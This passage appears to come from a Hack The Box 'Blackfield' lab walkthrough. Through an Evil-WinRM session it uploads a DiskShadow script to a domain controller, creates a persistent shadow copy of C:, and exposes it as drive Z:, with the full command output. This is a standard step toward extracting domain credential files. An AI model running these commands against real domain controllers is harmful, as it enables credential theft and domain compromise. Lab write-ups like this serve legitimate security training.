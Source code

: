 ```shell
cfx:  ~/Documents/htb/blackfield
→ cat shadowscript.txt
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```
```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload shadowscript.txt
Info: Uploading shadowscript.txt to C:\Users\svc_backup\Documents\shadowscript.txt


Data: 248 bytes of 248 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s shadowscript.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  10/5/2020 4:30:22 PM

-> set metadata C:\Windows\System32\spool\drivers\color\sss.cab
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume c: alias coldfx
-> create
Alias coldfx for shadow ID {87e12f70-64e3-4f5f-bebb-66a01dafae89} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {afca95ea-15c2-4467-8f35-70e36c7ed6fe} set as environment variable.

Querying all shadow copies with the shadow copy set ID {afca95ea-15c2-4467-8f35-70e36c7ed6fe}

        * Shadow copy ID = {87e12f70-64e3-4f5f-bebb-66a01dafae89}               %coldfx%
                - Shadow copy set: {afca95ea-15c2-4467-8f35-70e36c7ed6fe}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 10/5/2020 4:30:40 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %coldfx% z:
-> %coldfx% = {87e12f70-64e3-4f5f-bebb-66a01dafae89}
The shadow copy was successfully exposed as z:\.
->
Note: END BACKUP was not commanded, writers not notified BackupComplete.
DiskShadow is exiting.
```
#### Shadow Drive Z:
```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd Z:\
*Evil-WinRM* PS Z:\> ls


    Directory: Z:\
```